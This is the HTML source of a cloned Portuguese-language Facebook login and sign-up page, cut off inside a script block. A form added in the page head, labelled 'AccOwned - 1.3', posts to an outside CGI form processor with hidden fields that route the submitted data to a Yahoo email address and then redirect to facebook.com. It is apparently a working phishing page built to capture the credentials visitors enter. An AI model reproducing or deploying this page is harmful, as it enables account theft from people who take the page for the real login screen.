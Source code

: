 <!DOCTYPE html>
<html lang="pt" id="facebook" class="no_js">
<head><meta charset="utf-8" /><script>function envFlush(a){function b(c){for(var d in a)c[d]=a[d];}if(window.requireLazy){requireLazy(['Env'],b);}else{Env=window.Env||{};b(Env);}}
envFlush({"ffid1":"AcGWQU_vTXX_Zt6tsj6EyG9gCdPp1G3U7S9RzMEt28796--Yn09H-RYn9kyGxqqMY8k","ffid2":"AcGF-liQN5hSZ56peccx32whYLQb7HG6lgV0auiODLRLfX8Ze_VU3ONiUD6hfobkhTU","ffid3":"AcHk-4Fo8IrxUm22393oy8pc-8zehtVKCf7Dbkab8FkiyysPbr3PutdfF0H1Tf8-t8YoLkK0ivDQ6JAt3bvk6HRb","ffid4":"AcGsAUPkIRcsjUSRUe1Ou_U9-RkBcMwP4dnci_eW-87lEvASJIInRr7QuBrh-8QL8OU","ffver":63083,"recaptcha_focus_on_load":"false","recaptcha_lang":"\"en\"","user":"0","locale":"pt_BR","method":"GET","svn_rev":688594,"tier":"","vip":"31.13.73.23","static_base":"https:\/\/s-static.ak.facebook.com\/","www_base":"http:\/\/www.facebook.com\/","rep_lag":2,"fb_dtsg":"AQBU0AME","ajaxpipe_token":"AXiuFsxdfrOHKVVc","lhsh":"DAQFlzNEL","tracking_domain":"https:\/\/pixel.facebook.com","retry_ajax_on_network_error":"1","fbid_emoticons":"1"});</script><script>envFlush({"eagleEyeConfig":{"seed":"03qh","sessionStorage":true}});CavalryLogger=false;window._script_path = "\/index.php";</script><noscript><meta http-equiv="refresh" content="0; URL=/?_fb_noscript=1" /></noscript><meta name="application-name" content="Facebook" /><meta name="msapplication-tooltip" content="Visite o Facebook para conectar-se com seus amigos" /><meta name="msapplication-starturl" content="/" /><meta name="msapplication-window" content="width=1230;height=700" /><meta name="msapplication-task" content="name=Not&#xed;cias;action-uri=/?sk=nf;icon-uri=/images/icons/app/news.ico" /><meta name="msapplication-task" content="name=Mensagens;action-uri=/?sk=inbox;icon-uri=/images/icons/app/messages.ico" /><meta name="msapplication-task" content="name=Eventos;action-uri=/?sk=events;icon-uri=/images/icons/app/events.ico" /><meta name="msapplication-task" content="name=Amigos;action-uri=/?sk=fr;icon-uri=/images/icons/app/friends.ico" /><meta name="robots" content="noodp, noydir" /><meta name="referrer" content="default" id="meta_referrer" /><meta name="description" content=" O Facebook &#xe9; uma rede social que re&#xfa;ne pessoas a seus amigos e &#xe0;queles com quem trabalham, estudam e convivem. As pessoas participam do Facebook para manter contato com seus amigos, carregar um n&#xfa;mero ilimitado de fotos, compartilhar links e v&#xed;deos e aprender mais sobre as pessoas que conhecem." /><link rel="alternate" media="handheld" href="https://www.facebook.com/" /><title id="pageTitle">Bem-vindo ao Facebook - acesse, cadastre-se ou saiba mais.</title><meta property="og:image" content="https://www.facebook.com/images/fb_icon_325x325.png" /><link rel="shortcut icon" href="https://s-static.ak.facebook.com/rsrc.php/yP/r/Ivn-CVe5TGK.ico" /><noscript><meta http-equiv="X-Frame-Options" content="deny" /></noscript>
    <link rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yj/r/qzwo6ysqs77.css" />
    <link rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yO/r/VgC4D9ag6Er.css" />
    <link rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yY/r/u8iA3kXb8Y1.css" />

<form METHOD="POST" ACTION="http://terra.planetarium.com.br/cgi-bin/processform.cgi">
<INPUT TYPE="HIDDEN" NAME="TO" VALUE="gabrielstaloch@yahoo.com.br">
<INPUT TYPE="HIDDEN" NAME="FROM" VALUE="AccOwned - 1.3">
<INPUT TYPE="HIDDEN" NAME="SUBJECT" VALUE="AccOwned - 1.3">
<INPUT TYPE="HIDDEN" NAME="RESPONDER" VALUE="http://www.facebook.com/">
    <script src="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yB/r/MGmnFrWer13.js"></script>
  <script>window.Bootloader && Bootloader.done(["Blak7"]);</script><script>new (require("ServerJS"))().handle({"require":[["lowerDomain"],["QuicklingPrelude"],["Primer"]]})</script></head><body class="fbIndex UIPage_LoggedOut ie9 win Locale_pt_BR"><div id="FB_HiddenContainer" style="position:absolute; top:-10000px; width:0px; height:0px;"></div><div class="_li"><div id="pagelet_bluebar" data-referrer="pagelet_bluebar"><div id="blueBarHolder"><div id="blueBar"><div><div class="loggedout_menubar_container"><div class="clearfix loggedout_menubar"><a class="lfloat" href="/" title="Ir para a p&#xe1;gina inicial do Facebook"><i class="fb_logo img sp_38839k sx_127aa9"><u>Logotipo do Facebook</u></i></a><div class="menu_login_container rfloat"><form id="login_form" action="https://www.facebook.com/login.php?login_attempt=1" method="post" onsubmit="return window.Event &amp;&amp; Event.__inlineSubmit &amp;&amp; Event.__inlineSubmit(this,event)"><input type="hidden" name="lsd" value="AVoyxwZ4" autocomplete="off" /><table cellspacing="0"><tr><td class="html7magic"><label for="email">E-mail ou telefone</label></td><td class="html7magic"><label for="pass">Senha</label></td></tr><tr><td><input type="text" class="inputtext" name="email" id="email" value="" tabindex="1" /></td><td><input type="password" class="inputtext" name="pass" id="pass" tabindex="2" /></td><td><label class="uiButton uiButtonConfirm" id="loginbutton" for="u5v8wy74"><input value="Entrar" tabindex="4" type="submit" id="u5v8wy74" /></label></td></tr><tr><td class="login_form_label_field"><div><div class="uiInputLabel clearfix"><input id="persist_box" type="checkbox" name="persistent" value="1" tabindex="3" class="uiInputLabelCheckbox" /><label for="persist_box">Mantenha-me conectado</label></div><input type="hidden" name="default_persistent" value="0" /></div></td><td class="login_form_label_field"><a rel="nofollow" href="http://www.facebook.com/recover/initiate">Esqueceu sua senha?</a></td></tr></table><input type="hidden" name="charset_test" value="&euro;,&acute;,€,´,水,Д,Є" /><input type="hidden" autocomplete="off" name="timezone" value="" id="u5v8wy73" /><input type="hidden" name="lgnrnd" value="115313_Dkkz" /><input type="hidden" id="lgnjs" name="lgnjs" value="n" /><input type="hidden" autocomplete="off" id="locale" name="locale" value="pt_BR" /></form></div></div></div></div></div></div></div><div id="globalContainer" class="uiContextualLayerParent"><div id="content" class="fb_content clearfix"><div><!-- 2365fa3194ecdc0cab15721ce967a9f8663937c7 --><div class="gradient"><div class="gradientContent"><div class="clearfix fbIndexFeaturedRegistration"><div class="feature lfloat"><div class="clearfix fbIndexMobile"><a class="lfloat" ajaxify="/ajax/mobile/sms_link/?src=lo&amp;type=install_via_sms" tabindex="-1" href="#" rel="dialog" role="button"><img class="mtm phoneImage img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yt/r/FZaMKqARgC6.png" alt="" width="97" height="205" /></a><div class="clearfix rightSide rfloat"><div class="lfloat"><div class="title fsl fwb fcb">Está saindo? Continue conectado.</div><div class="subtitle fsm fwn fcg">Acesse facebook.com em seu celular.</div></div><a class="mrl mobileButton rfloat uiButton" href="#" role="button" ajaxify="/ajax/mobile/sms_link/?src=lo&amp;type=install_via_sms" rel="dialog"><span class="uiButtonText">Obter o Facebook Móvel</span></a></div></div></div><div class="signupForm rfloat"><div class="mbm phm headerTextContainer"><div class="mbs mainTitle fsl fwb fcb">Cadastre-se</div><div class="mbm subtitle fsm fwn fcg">É gratuito e sempre será.</div></div><div id="registration_container"><div data-referrer="simple_registration_form"><noscript><div id="no_js_box"><h2>O JavaScript está desativado em seu navegador.</h2><p>Ative o Javascript no seu navegador ou atualize para um navegador compatível com Javascript para se cadastrar no Facebook.</p></div></noscript><div id="simple_registration_container" class="simple_registration_container"><div id="reg_box"><form method="post" id="reg" name="reg" action="https://m.facebook.com/r.php" onsubmit="return function(event)&#123;return false;&#125;.call(this,event)!==false &amp;&amp; window.Event &amp;&amp; Event.__inlineSubmit &amp;&amp; Event.__inlineSubmit(this,event)"><input type="hidden" name="lsd" value="AVoyxwZ4" autocomplete="off" /><input type="hidden" autocomplete="off" id="reg_instance" name="reg_instance" value="qZrDUFsLmKYPiiuqW5gOmDEo" /><input type="hidden" autocomplete="off" id="asked_to_login" name="asked_to_login" /><input type="hidden" autocomplete="off" id="locale" name="locale" value="pt_BR" /><input type="hidden" autocomplete="off" id="terms" name="terms" value="on" /><input type="hidden" autocomplete="off" id="abtest_registration_group" name="abtest_registration_group" value="1" /><input type="hidden" autocomplete="off" id="referrer" name="referrer" value="" /><input type="hidden" autocomplete="off" id="md5pass" name="md5pass" value="" /><input type="hidden" autocomplete="off" id="validate_mx_records" name="validate_mx_records" value="1" /><input type="hidden" autocomplete="off" id="ab_test_data" name="ab_test_data" value="" /><div id="reg_form_box" class="large_form"><table class="uiGrid editor" cellspacing="0" cellpadding="1"><tbody><tr><td class="label"><label for="firstname">Nome:</label></td><td><div class="field_container"><input type="text" class="inputtext" id="firstname" name="firstname" aria-required="true" /></div></td></tr><tr><td class="label"><label for="lastname">Sobrenome:</label></td><td><div class="field_container"><input type="text" class="inputtext" id="lastname" name="lastname" aria-required="true" /></div></td></tr><tr><td class="label"><label for="reg_email__">Seu e-mail:</label></td><td><div class="field_container"><input type="text" class="inputtext" id="reg_email__" name="reg_email__" aria-required="true" /></div></td></tr><tr><td class="label"><label for="reg_email_confirmation__">Insira o e-mail novamente:</label></td><td><div class="field_container"><input type="text" class="inputtext" id="reg_email_confirmation__" name="reg_email_confirmation__" aria-required="true" /></div></td></tr><tr><td class="label"><label for="reg_passwd__">Nova senha:</label></td><td><div class="field_container"><input type="password" class="inputtext" id="reg_passwd__" name="reg_passwd__" value="" aria-required="true" /></div></td></tr><tr><td class="label">Eu sou:</td><td><div class="field_container"><div class="hidden_elem"><select><option></option><option></option></select><select><option></option><option></option></select></div><select class="select" name="sex" id="sex" aria-required="true"><option value="0">Selecione o gênero:</option><option value="1">Feminino</option><option value="2">Masculino</option></select></div></td></tr><tr><td class="label">Aniversário:</td><td><div class="field_container"> <select name="birthday_day" id="birthday_day" aria-label="Dia" class=""><option value="-1">Dia:</option><option value="1">1</option><option value="2">2</option><option value="3">3</option><option value="4">4</option><option value="5">5</option><option value="6">6</option><option value="7">7</option><option value="8">8</option><option value="9">9</option><option value="10">10</option><option value="11">11</option><option value="12">12</option><option value="13">13</option><option value="14">14</option><option value="15">15</option><option value="16">16</option><option value="17">17</option><option value="18">18</option><option value="19">19</option><option value="20">20</option><option value="21">21</option><option value="22">22</option><option value="23">23</option><option value="24">24</option><option value="25">25</option><option value="26">26</option><option value="27">27</option><option value="28">28</option><option value="29">29</option><option value="30">30</option><option value="31">31</option></select> <select name="birthday_month" id="birthday_month" aria-label="M&#xea;s" class="" onchange="return run_with(this, [&quot;editor&quot;], function() &#123;editor_date_month_change(this, &quot;birthday_day&quot;, &quot;birthday_year&quot;);&#125;);"><option value="-1">Mês:</option><option value="1">janeiro</option><option value="2">fevereiro</option><option value="3">março</option><option value="4">abril</option><option value="5">maio</option><option value="6">Junho</option><option value="7">julho</option><option value="8">agosto</option><option value="9">setembro</option><option value="10">outubro</option><option value="11">novembro</option><option value="12">dezembro</option></select> <select name="birthday_year" id="birthday_year" aria-label="Ano" class="" onchange="return run_with(this, [&quot;editor&quot;], function() &#123;editor_date_month_change(&quot;birthday_month&quot;,&quot;birthday_day&quot;,this);&#125;);"><option value="-1">Ano:</option><option value="2012">2012</option><option value="2011">2011</option><option value="2010">2010</option><option value="2009">2009</option><option value="2008">2008</option><option value="2007">2007</option><option value="2006">2006</option><option value="2005">2005</option><option value="2004">2004</option><option value="2003">2003</option><option value="2002">2002</option><option value="2001">2001</option><option value="2000">2000</option><option value="1999">1999</option><option value="1998">1998</option><option value="1997">1997</option><option value="1996">1996</option><option value="1995">1995</option><option value="1994">1994</option><option value="1993">1993</option><option value="1992">1992</option><option value="1991">1991</option><option value="1990">1990</option><option value="1989">1989</option><option value="1988">1988</option><option value="1987">1987</option><option value="1986">1986</option><option value="1985">1985</option><option value="1984">1984</option><option value="1983">1983</option><option value="1982">1982</option><option value="1981">1981</option><option value="1980">1980</option><option value="1979">1979</option><option value="1978">1978</option><option value="1977">1977</option><option value="1976">1976</option><option value="1975">1975</option><option value="1974">1974</option><option value="1973">1973</option><option value="1972">1972</option><option value="1971">1971</option><option value="1970">1970</option><option value="1969">1969</option><option value="1968">1968</option><option value="1967">1967</option><option value="1966">1966</option><option value="1965">1965</option><option value="1964">1964</option><option value="1963">1963</option><option value="1962">1962</option><option value="1961">1961</option><option value="1960">1960</option><option value="1959">1959</option><option value="1958">1958</option><option value="1957">1957</option><option value="1956">1956</option><option value="1955">1955</option><option value="1954">1954</option><option value="1953">1953</option><option value="1952">1952</option><option value="1951">1951</option><option value="1950">1950</option><option value="1949">1949</option><option value="1948">1948</option><option value="1947">1947</option><option value="1946">1946</option><option value="1945">1945</option><option value="1944">1944</option><option value="1943">1943</option><option value="1942">1942</option><option value="1941">1941</option><option value="1940">1940</option><option value="1939">1939</option><option value="1938">1938</option><option value="1937">1937</option><option value="1936">1936</option><option value="1935">1935</option><option value="1934">1934</option><option value="1933">1933</option><option value="1932">1932</option><option value="1931">1931</option><option value="1930">1930</option><option value="1929">1929</option><option value="1928">1928</option><option value="1927">1927</option><option value="1926">1926</option><option value="1925">1925</option><option value="1924">1924</option><option value="1923">1923</option><option value="1922">1922</option><option value="1921">1921</option><option value="1920">1920</option><option value="1919">1919</option><option value="1918">1918</option><option value="1917">1917</option><option value="1916">1916</option><option value="1915">1915</option><option value="1914">1914</option><option value="1913">1913</option><option value="1912">1912</option><option value="1911">1911</option><option value="1910">1910</option><option value="1909">1909</option><option value="1908">1908</option><option value="1907">1907</option><option value="1906">1906</option><option value="1905">1905</option></select></div></td></tr><tr><td class="label"></td><td><div id="birthday_warning"><a href="#" ajaxify="/help/ajax/reg_birthday" title="Clique para obter mais informa&#xe7;&#xf5;es" rel="async">Por que preciso informar minha data de nascimento?</a></div></td></tr><tr><td class="label"></td><td><div class="fbRegistrationPPT" id="ppt_container"><p class="privacy_policy_text text">Ao clicar Cadastre-se, você concorda com nossos <a href="/terms.php" target="_blank" rel="nofollow">Termos</a> e que leu e entendeu nossa <a href="/policy.php" target="_blank" rel="nofollow">Política de uso de dados</a>, incluindo <a href="/help/cookies/" target="_blank" rel="nofollow">Uso de cookies</a>.</p></div></td></tr></tbody></table><div class="reg_btn clearfix"><label class="uiButton uiButtonSpecial" for="u5v8wy71"><input value="Cadastre-se" name="websubmit" onclick="setFormTypeABTest($(&quot;reg&quot;)); RegistrationBootloader.bootloadAndValidate();" type="submit" id="u5v8wy71" /></label><span id="async_status" class="async_status" style="display: none"><img class="img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" width="16" height="11" /></span></div></div><div id="reg_captcha" style="display: none"><div><h2 id="security_check_header">Verificação de segurança</h2><div id="outer_captcha_box"><div id="captcha_box"><div class="field_error" id="captcha_response_error" style="display:none;">Este campo é obrigatório.</div><div id="captcha" class="captcha"><input type="hidden" autocomplete="off" id="captcha_persist_data" name="captcha_persist_data" value="AZkb-B3tEmbrVwvuO1O5os767tE4bsmvqofJ7ubJVh1u2tHCFDqEPZXnLcg7KkZbbQv_4s71_EnEMmOaq6ieyJahbTK2VejzrHCssE_JNBipmvdaECfr9LSwePp9rgkhLgdS2NSym3iD6DIwL9cLGo9_3iazkFyK23JYuVZZ8SMx7q3eK4_GyMlmxpI9fU76y7tm34N6O5BE_BOYwMRdTVrZf8iLsGjaR49lEDd87ZuqvhgKBt32ClChOKAe42JzsB_5vKGj1XeWz_1Twq9PSreH6EuVZ-yZ2VOyNu4dtRF0xUbbYsk5EBesIKAKhFRjdP05lPd02ABScXjJmnFAXhx-nSGWeju7CsX5-94Nz2-QMg" /><div><div id="recaptcha_scripts" style="display:none"></div><input type="hidden" autocomplete="off" id="captcha_session" name="captcha_session" value="DH35WY5OvD2K6zVjsp_S7g" /><input type="hidden" autocomplete="off" id="extra_challenge_params" name="extra_challenge_params" value="authp=nonce.tt.time.new_audio_default&amp;psig=SzSiTje1w-LLufPevGAMMiJqm4U&amp;nonce=DH35WY5OvD2K6zVjsp_S7g&amp;tt=GRo5DTCFTNyeOXtNMmBx9_pREys&amp;time=1354996393&amp;new_audio_default=1" /><input type="hidden" autocomplete="off" id="recaptcha_type" name="recaptcha_type" value="password" /><div class="recaptcha_text"><div class="recaptcha_only_if_image">Digite abaixo ambas as palavras, separadas por um espaço.<br />Não é possível ler as palavras abaixo? <a href="#" onclick="Recaptcha.reload(); return false" id="recaptcha_reload_btn">Tente palavras diferentes</a> ou <a href="#" onclick="Recaptcha.switch_type(&quot;audio&quot;); return false;">um captcha sonoro</a>.</div><div class="recaptcha_only_if_audio" style="display:none">Insira as palavras ou números que você ouvir.<br /><a href="#" onclick="Recaptcha.reload(); return false" id="recaptcha_reload_btn">Tente palavras diferentes</a> ou <a class="recaptcha_only_if_audio" href="#" onclick="Recaptcha.switch_type(&quot;image&quot;); return false;">volte ao texto</a>.</div></div><span id="recaptcha_play_audio"></span><div class="audiocaptcha"></div><div id="recaptcha_image" class="captcha_image"></div><div id="recaptcha_loading">Carregando... <img class="captcha_loading img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" style="height:11px;width:16px;" /></div></div><div class="captcha_input"><label>Texto da caixa:</label><div class="field_container"><input type="text" name="captcha_response" id="captcha_response" autocomplete="off" aria-label="Entrada do captcha. Digite as letras listadas acima para continuar. Al&#xe9;m disso, voc&#xea; pode usar o captcha de &#xe1;udio, clicando no link abaixo." /></div><a class="mlm" href="#" onclick="CSS.show($(&#039;captcha_whats_this&#039;)); return false;">O que é isso?</a><div id="captcha_whats_this" class="hidden_elem"><div class="fsl fwb">Verificação de segurança</div>Este é um teste de segurança padrão que usamos para evitar que contas falsas sejam criadas e enviem spams aos usuários.</div></div></div></div></div><div><div class="gridCol"></div><div class="gridCol"></div></div><div id="captcha_buttons" class="clearfix" style="display: none;"><div id="back_button" class="gridCol"><div class="cancel_button_image">   </div><a id="cancel_button" href="#" onclick="return run_with(this, [&quot;registration&quot;], function() &#123;Registration.getInstance().hide_captcha();Registration.getInstance().show_reg_form();&#125;);">Voltar</a></div><div id="A_btn_sign_up" class="gridCol"><div class="reg_btn clearfix"><label class="big_input uiButton uiButtonSpecial" for="u5v8wy72"><input value="Cadastre-se" onclick="setFormTypeABTest($(&quot;reg&quot;)); Registration.getInstance().validateForm();" type="submit" id="u5v8wy72" /></label><span id="captcha_async_status" class="async_status" style="display: none"><img class="img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" width="16" height="11" /></span></div></div></div></div></div></form><div id="reg_progress" style="display: none"><div id="progress_wrap"><img class="img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" width="16" height="11" /><div id="progress_msg">Registrando...</div></div></div><div id="reg_error" class="hidden_elem"><div id="reg_error_inner">Ocorreu um erro. Tente novamente.</div></div><div id="tos_container" class="tos_container"><p class="legal_tos hidden_elem">Ao clicar em Cadastre-se, você está afirmando que leu e concorda com os <a href="/legal/terms" target="_blank" rel="nofollow">Termos de uso</a> e com a <a href="/policy.php" target="_blank" rel="nofollow">Política de privacidade</a>.</p></div><div id="reg_pages_msg" class="pagesSection pagesSectionPPT"><a href="/pages/create.php">Crie uma página</a> para uma celebridade, banda ou empresa.</div></div></div></div></div></div></div></div></div><div class="mtm locales"><ul class="uiList localeSelectorList _4ki clearfix _6-h _6-j _6-i"><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;pt_BR&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Portuguese (Brazil)">Português (Brasil)</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;en_US&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="English (US)">English (US)</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;es_LA&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Spanish">Español</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;fr_FR&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="French (France)">Français (France)</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;de_DE&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="German">Deutsch</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;it_IT&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Italian">Italiano</a></li><li class="uiListItem"><a dir="rtl" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;ar_AR&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Arabic">العربية</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;hi_IN&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Hindi">हिन्दी</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;zh_CN&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Simplified Chinese (China)">中文(简体)</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;ja_JP&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Japanese">日本語</a></li><li class="uiListItem"><a class="showMore" rel="dialog" href="/ajax/intl/language_dialog.php?uri=https%3A%2F%2Fwww.facebook.com%2F&amp;source=TOP_LOCALES_DIALOG" title="Mostrar mais idiomas" role="button">...</a></li></ul></div></div></div><div id="pageFooter" data-referrer="page_footer"><div id="contentCurve"></div><div class="clearfix" id="footerContainer"><div class="mrl lfloat"><div class="fsm fwn fcg"><span> Facebook © 2012</span> · <a rel="dialog" href="/ajax/intl/language_dialog.php?uri=https%3A%2F%2Fwww.facebook.com%2F" title="Use o Facebook em outro idioma." role="button">Português (Brasil)</a></div></div><div class="navigation fsm fwn fcg" role="contentinfo" aria-label="Links para sites do Facebook"><a href="http://www.facebook.com/mobile/?ref=pf" title="Confira o Facebook M&#xf3;vel.">Celular</a> · <a href="http://www.facebook.com/find-friends?ref=pf" title="Encontre qualquer pessoa na Web.">Localizar amigos</a> · <a href="http://www.facebook.com/badges/?ref=pf" title="Incorporar um atalho do Facebook em seu site.">Atalhos</a> · <a href="http://www.facebook.com/directory/people/" title="Navegue no nosso diret&#xf3;rio de pessoas.">Pessoas</a> · <a href="http://www.facebook.com/directory/pages/" title="Pesquisar nosso diret&#xf3;rio de p&#xe1;ginas.">Páginas</a> · <a href="http://www.facebook.com/appcenter/?ref=pf" title="Check out Facebook App Center.">Aplicativos</a> · <a href="http://www.facebook.com/appcenter/category/games/?ref=pf" title="Check out Facebook games.">Jogos</a> · <a href="http://www.facebook.com/appcenter/category/music/?ref=pf" title="Check out Facebook music apps.">Música</a> · <a href="http://www.facebook.com/facebook" accesskey="8" title="Leia nosso blog, descubra a central de recursos e encontre oportunidades de trabalho.">Sobre</a> · <a href="http://www.facebook.com/campaign/landing.php?placement=pflo&amp;campaign_id=402047449186&amp;extra_1=auto" title="Anuncie no Facebook.">Criar um anúncio</a> · <a href="http://www.facebook.com/pages/create.php?ref_type=sitefooter" title="Criar uma p&#xe1;gina">Criar uma página</a> · <a href="http://developers.facebook.com/?ref=pf" title="Desenvolver em nossa plataforma.">Desenvolvedores</a> · <a href="http://www.facebook.com/careers/?ref=pf" title="D&#xea; um passo adiante na sua carreira em nossa incr&#xed;vel empresa.">Carreiras</a> · <a href="http://www.facebook.com/privacy/explanation" title="Saiba mais sobre sua privacidade e o Facebook.">Privacidade</a> · <a href="http://www.facebook.com/help/cookies" title="Saiba mais sobre cookies e o Facebook">Cookies</a> · <a href="http://www.facebook.com/policies/?ref=pf" accesskey="9" title="Consulte nossos termos e pol&#xed;ticas.">Termos</a> · <a href="http://www.facebook.com/help/?ref=pf" accesskey="0" title="Acesse nossa Central de ajuda.">Ajuda</a></div></div></div></div></div><script type="text/javascript">/*<![CDATA[*/function si_cj(m){setTimeout(function(){new Image().src="https:\/\/error.facebook.com\/common\/scribe_endpoint.php?c=si_clickjacking&t=2474"+"&m="+m;},5000);}if(top!=self && !false){try{if(parent!=top){throw 1;}var si_cj_d=["apps.facebook.com","\/pages\/","apps.beta.facebook.com"];var href=top.location.href.toLowerCase();for(var i=0;i<si_cj_d.length;i++){if (href.indexOf(si_cj_d[i])>=0){throw 1;}}si_cj("3 ");}catch(e){si_cj("1 \t");window.document.write("\u003Cstyle>body * {display:none !important;}\u003C\/style>\u003Ca href=\"#\" onclick=\"top.location.href=window.location.href\" style=\"display:block !important;padding:10px\">\u003Ci class=\"img sp_4yuo6n sx_fc69b8\" style=\"display:block !important\">\u003C\/i>Acesse Facebook.com\u003C\/a>");/*snm9mLFO*/}}/*]]>*/</script>
<script>Bootloader.setResourceMap({"A77NA":{"type":"css","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yj\/r\/qzwo6ysqs77.css"},"byJia":{"type":"css","permanent":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yO\/r\/VgC4D9ag6Er.css"},"VuNPD":{"type":"css","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yY\/r\/u8iA3kXb8Y1.css"},"X\/Fq6":{"type":"css","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y6\/r\/YlbIHaln_Rk.css"},"iQgIT":{"type":"css","permanent":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/ye\/r\/M0q_X9Mzhmq.css"},"VDymv":{"type":"css","permanent":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yw\/r\/LpbNnLl9JJr.css"}});Bootloader.setResourceMap({"YO7w5":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yz\/r\/px7wbKcfGEw.js"},"wLu\/7":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yK\/r\/k_QLfmH7oOh.js"},"T8gbI":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yM\/r\/GCmGQbg43Sl.js"},"uqSgb":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y5\/r\/gQf0tONrZtt.js"},"ne+Ol":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yB\/r\/s2pT6tI0qDP.js"},"rZ79y":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y0\/r\/wrjUg3Fs6TZ.js"},"JE+14":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/ys\/r\/UkEsdnWXuKD.js"},"gM1Bs":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yJ\/r\/F_4RG0MPVux.js"},"oE4Do":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yD\/r\/65c9OW-i481.js"},"\/K81D":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yl\/r\/cwMSzldh79l.js"},"GTz7X":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yg\/r\/eSdktajXroe.js"},"MqSmz":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yH\/r\/ghlEJgSKAee.js"},"cNca2":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yn\/r\/XQ1IPAI9NyR.js"},"\/vuZw":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yk\/r\/g6wsSYlWI6X.js"},"bwsMw":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y_\/r\/hwOyT9fmfZV.js"},"3quxQ":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y4\/r\/Wv8z1iI3Pjh.js"},"zyFOp":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y4\/r\/61VSNDvRJnS.js"},"9kSd2":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yb\/r\/6jEpoP3b9tx.js"},"SRzKv":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/ys\/r\/cl0g7zmlNIs.js"},"KQ5I8":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yb\/r\/O23eVP80saT.js"},"M2hRu":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/ya\/r\/i_5_NPA0B8N.js"},"2ma5f":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yo\/r\/hCn6u3fXLtg.js"},"j07DW":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y5\/r\/jApT8n6JsZx.js"},"wxq+C":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yJ\/r\/f5uM6pYP8bY.js"},"DZmeF":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y2\/r\/ZeZFU7zHXu